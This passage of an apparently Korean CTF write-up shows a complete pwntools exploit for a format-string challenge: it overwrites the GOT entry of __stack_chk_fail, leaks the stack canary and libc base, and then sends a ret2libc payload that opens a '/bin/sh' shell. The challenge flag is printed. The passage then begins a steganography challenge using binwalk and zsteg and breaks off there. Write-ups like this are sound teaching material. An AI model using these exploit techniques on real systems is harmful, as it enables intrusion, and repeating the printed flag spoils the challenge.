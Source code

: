 ``` python
payload += p32(e.got['__stack_chk_fail'])
payload += p32(e.got['__stack_chk_fail']+2)
payload += "a"*(0x4c-len(payload)+4)
x.sendlineafter("Type something>",payload)

# === Memory leak for libcbase, canary ===
payload = "%71$x %31$x "
payload += "a"*(0x4c-len(payload)+4)
x.sendlineafter("Type something>",payload)
x.recvuntil("typed: ")
res = x.recv(20).split(" ")[:-1]
canary = int(res[1], 16)
libcbase = int(res[0], 16) - 241 - lib.symbols['__libc_start_main'] 

log.info("canary : " +hex(canary))
log.info("libcbase : "+hex(libcbase))

# === system("/bin/sh") ===
print("!!! attack!!!")
payload = "a"*(64)
payload += p32(canary)
payload += "a"*12
payload += p32(libcbase + lib.symbols['system']) # system()
payload += "Aaaa"
payload += p32(libcbase + next(lib.search("/bin/sh"))) #binsh
x.sendlineafter("Type something>",payload)

x.interactive()
```
두번째 입력에서는 `__libc_start_main`의 주소를 leak해서 `libcbase`를 구했고, 동시에 카나리 값도 구했다. main이 중첩되다 보니까 스택 프레임이 약간 꼬여보여서 위치를 찾기 어려웠다. 이후 세번째 입력에서 쉘을 띄울 수 있었다.
## flag
`nactf{lo0p_4r0und_th3_G0T_VASfJ4VJ}`












# Least Significant Avenger
```
I hate to say it but I think that Hawkeye is probably the Least Significant avenger. Can you find the flag hidden in this picture?

Hiding messages in pictures is called stenography. I wonder what the least significant type of stenography is.
```
## solve
``` bash
➜ strings insignificant_hawkeye.png | grep "nactf"
➜ binwalk insignificant_hawkeye.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 332 x 152, 8-bit/color RGBA, non-interlaced
41            0x29            Zlib compressed data, compressed

➜ zsteg insignificant_hawkeye.png
/usr/lib/ruby/2.5.0/open3.rb:199: warning: Insecure world writable dir /mnt/c in PATH, mode 040777
```